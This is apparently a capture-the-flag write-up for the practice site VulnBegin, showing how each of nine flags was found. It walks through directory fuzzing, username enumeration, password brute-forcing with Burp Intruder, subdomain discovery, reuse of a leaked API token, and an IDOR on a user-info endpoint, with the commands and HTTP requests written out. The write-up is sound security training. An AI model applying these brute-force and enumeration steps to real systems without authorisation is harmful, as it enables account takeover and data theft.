# VulnBegin

http://www.vulnbegin.co.uk/ - 9 flags to find

OK so we're greeted with well not a lot really....



Dev tools reveal there are no particularly interesting javascript for this page just jquery and bootstrap



Ok lets check if there's a robots.txt

```
User-agent: *
Disallow: /secret_d1rect0y/
```

Woo yup, this reveals a flag (no. 4)

```
[^FLAG^XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX^FLAG^]
```

Ok let's try some directory fuzzing. So first things first I have to work out how to set a cookie with my fuzzing tool of choice ffuf. Because....

```
If using automation tools you need to make sure you are setting the ctfchallenge cookie with every request or it will NOT work
```

Quick check of the help

```
ffuf -h                                                                                                                                     
Fuzz Faster U Fool - v1.3.1 Kali Exclusive <3

HTTP OPTIONS:
  -H                  Header `"Name: Value"`, separated by colon. Multiple -H flags are accepted.
```

Also need to limit the number of requests

```
Important Information

To avoid overloading the challenges please limit your requests to 10 per second

If you receive a HTTP status code 429 this is because you are requesting too much information from the challenges
```

Another check of the help reveals we can limit the threads with the -t and set the delay between requests with -p so we have a command similar to the below

```
ffuf -u 'https://www.vulnbegin.co.uk/FUZZ' -w /usr/share/wordlists/ctfchallenge/content.txt -H "Cookie: ctfchallenge=xxxxx" -t 1 -p 0.1
```

I don't know why but requests made with ffuf to this domain timeout every time, no matter what setting I put for the thread count/delay between requests. So instead I switched over to using Burp Intruder and sniper mode on the directory. Using the provided content.txt as my payload list



Again making sure to limit our requests as per our scope



Plenty of 404 not found responses, except one


OK using the path in the browser redirects me to /cpadmin/login, a login page! Let's try a quick basic SQLi check



OK that didn't work, BUT it does give a specific message about an invalid username. Let's try admin before fuzzing the usernames save some time.



Success. OK time to fuzz passwords, again in Burp similar to the previous fuzz but with a POST request for login

And we get another 302 redirect with this payload



Yay got flag no.5



As I'm logged in it looks like I have a new 'token' cookie, quick fuzz test at /cpadmin see if I get any results.....

Whilst that runs, I'm wondering if I need to find any subdomains of vulnbegin.co.uk, let's use tomnomnom's assetfinder

```
assetfinder -subs-only vulnbegin.co.uk
www.vulnbegin.co.uk
vulnbegin.co.uk
v64hss83.vulnbegin.co.uk
vulnbegin.co.uk
vulnbegin.co.uk
```

Look at that a hidden subdomain, quick visit reveals flag no. 2

```
[^FLAG^XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX^FLAG^] 
```

OK the fuzz results came back, another directory



Yay another flag (no. 6), and an API token



Ummm ok, let's do a fuzz against the /cpadmin/env/FUZZ directory....

That came back with nothing. It looks like we may have an API somewhere, so lets FUZZ content on http://v64hss83.vulnbegin.co.uk/

Again nothing much, most results return the same flag, and anything with a .php extension returns a 404 response...

OK so let's review the wordlists provided by ctfchallenge again

```
└─$ ls -ltr /usr/share/wordlists/ctfchallenge
total 224
-rwxrwxrwx 1 kali kali 71039 Jun 17  2021 usernames.txt
-rwxrwxrwx 1 kali kali 11957 Jun 17  2021 subdomains.txt
-rwxrwxrwx 1 kali kali 37655 Jun 17  2021 content.txt
-rwxrwxrwx 1 kali kali 76508 Jun 17  2021 passwords-large.txt
-rwxrwxrwx 1 kali kali 19302 Jun 17  2021 parameters.txt
-rwxrwxrwx 1 kali kali   754 Jun 17  2021 passwords.txt
```

Let's check out the subdomains wordlist, I already have one subdomain via assetfinder but there may be more.



Yay another flag! (no. 3). OK so I'm not authenticatd apparently, I wonder if I can use that token I found.

Tweak the request to include the X-Token

```
GET / HTTP/1.1
Host: server.vulnbegin.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Token: xxxxxx
Connection: close
Cookie: ctfchallenge=xxxx
```

And.....

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 08:29:35 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxxxxxxxxx
connection: close
Content-Length: 89

{"messaged":"User Authenticated","flag":"XXXXXXXXXXXXXXXXXXXXXX"}
```

Yes flag no.7 :). OK so we have flags: 1, 8 + 9 remaining. 

Let's step back in the recon, I've done content discovery and subdomain enumeration against the main domain. But I've not had a closer look at the main domain itself. To nslookup

```
└─$ nslookup -type=any vulnbegin.co.uk
main parsing vulnbegin.co.uk
addlookup()
make_empty_lookup()
make_empty_lookup() = 0x7fdce359e000->references = 1
looking up vulnbegin.co.uk
lock_lookup dighost.c:4184
success
start_lookup()
setup_lookup(0x7fdce359e000)
resetting lookup counter.
cloning server list
clone_server_list()
make_server(192.168.1.1)
idn_textname: vulnbegin.co.uk
using root origin
recursive query
add_question()
starting to render the message
done rendering
create query 0x7fdce222d000 linked to lookup 0x7fdce359e000
dighost.c:2083:lookup_attach(0x7fdce359e000) = 2
dighost.c:2587:new_query(0x7fdce222d000) = 1
do_lookup()
start_tcp(0x7fdce222d000)
dighost.c:2693:query_attach(0x7fdce222d000) = 2
query->servname = 192.168.1.1
```

It seems to get stuck on ```query->servname = 192.168.1.1```, so let's add the google DNS

```
└─$ nslookup -type=any vulnbegin.co.uk 8.8.8.8
main parsing vulnbegin.co.uk
addlookup()
make_empty_lookup()
make_empty_lookup() = 0x7f2cc419e000->references = 1
looking up vulnbegin.co.uk
...
...
Non-authoritative answer:
printsection()
Name:	vulnbegin.co.uk
Address: 68.183.255.206
vulnbegin.co.uk	nameserver = ns1.digitalocean.com.
vulnbegin.co.uk	nameserver = ns2.digitalocean.com.
vulnbegin.co.uk	nameserver = ns3.digitalocean.com.
vulnbegin.co.uk
	origin = ns1.digitalocean.com
	mail addr = hostmaster.vulnbegin.co.uk
	serial = 1626211765
	refresh = 10800
	retry = 3600
	expire = 604800
	minimum = 1800
vulnbegin.co.uk	text = "[^FLAG^XXXXXXXXXXXXXXXXXX^FLAG^]"
```

Cool there's flag no.1 :)

Right OK so I haven't fuzzed for content on the server.vulbegin.co.uk domain so I went off and did that and found a result
at ```server.vulbegin.co.uk/user```

Which lead me to an info endpoint

```
GET /user/27/info HTTP/1.1
Host: server.vulnbegin.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Token: xxxx
Connection: close
Cookie: ctfchallenge=xxxx
```

Which gives me flag no.8 :)

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 09:20:03 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxx; Max-Age=2592000; Path=/; domain=.vulnbegin.co.uk
connection: close
Content-Length: 138

{"id":27,"username":"vulnbegin_website","description":"User for the main website","flag":"[^FLAG^XXXXXXXX^FLAG^]"}
```

So this smells like an IDOR, using Intruder on the user ID I got a hit on an ID of 5 :). That's flag no.9 and the room is complete :)

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 09:25:27 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxx; Max-Age=2592000; Path=/; domain=.vulnbegin.co.uk
connection: close
Content-Length: 120

{"id":5,"username":"admin","description":"admin for the server","flag":"[^FLAG^xxxxxxxxx^FLAG^]"}
```